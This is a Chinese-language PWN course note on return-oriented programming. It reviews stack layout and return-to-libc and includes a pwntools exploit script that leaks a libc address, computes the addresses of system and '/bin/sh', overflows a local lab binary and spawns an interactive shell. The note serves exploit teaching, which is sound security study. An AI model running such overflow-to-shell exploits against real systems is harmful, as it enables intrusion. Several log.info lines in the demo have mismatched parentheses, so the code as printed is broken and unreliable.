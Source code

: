 # 长亭PWN笔记02

- ROP实战技巧之一：连接多个libc函数调用
- ROPP实战技巧之二：栈迁移(Stack Pivot)
- ROP案例详解
- x64下的ROP
- ROP和GOT表劫持相关缓解技术

## 回顾：栈布局

![](https://github-1251836300.cos.ap-guangzhou.myqcloud.com/%E9%95%BF%E4%BA%AD%E5%85%AC%E5%BC%80%E8%AF%BE/%E5%B0%8F%E8%AF%95%E7%89%9B%E5%88%80%EF%BC%8C%E5%AE%9E%E6%88%98ROP%E5%88%A9%E7%94%A8%E6%8A%80%E5%B7%A7/QQ%E5%9B%BE%E7%89%8720200426163406.png)

## 回顾：Return to Libc

一次在栈上布置system、exit、binsh、0，即可连续调用system("/bin/sh")和exit(0)

![](https://github-1251836300.cos.ap-guangzhou.myqcloud.com/%E9%95%BF%E4%BA%AD%E5%85%AC%E5%BC%80%E8%AF%BE/%E5%B0%8F%E8%AF%95%E7%89%9B%E5%88%80%EF%BC%8C%E5%AE%9E%E6%88%98ROP%E5%88%A9%E7%94%A8%E6%8A%80%E5%B7%A7/QQ%E5%9B%BE%E7%89%8720200426163511.png)

那如何串联3次或更多的libc函数调用？如果libc函数有2个以上的参数，如何不是ROP Payload？例如

```
read(fd,buf,size)
write(fd,buf,size)
```

DEMO代码：

```python
from pwn import *

elf = ELF("./ret2libc")
libc = elf.libc
io = process("./ret2libc")
pause()
io.recvuntil("This is your gift: ")
setvbuf_addr = int(io.recvline().strip(),16)
#libc.sym就是offset
libc_base = setvbuf_addr - libc.sym["setvbuf"]
system_addr = libc_base + libc.sym["system"]
binsh_addr = libc_base + libc.search("/bin/sh\x00").next()

pause()
log.info("setvbuf_addr:0x%x") % setvbuf_addr)
log.info("libc_base:0x%x") % libc_base)
log.info("system_addr:0x%x") % system_addr)
log.info("binsh_addr:0x%x") % binsh_addr)

pay = "A"*0x68 + "B"*4
pay += p32(system_addr)
pay += 'CCCC'
pay += p32(binsh_addr)

io.send(pay)

io.interactive()
```

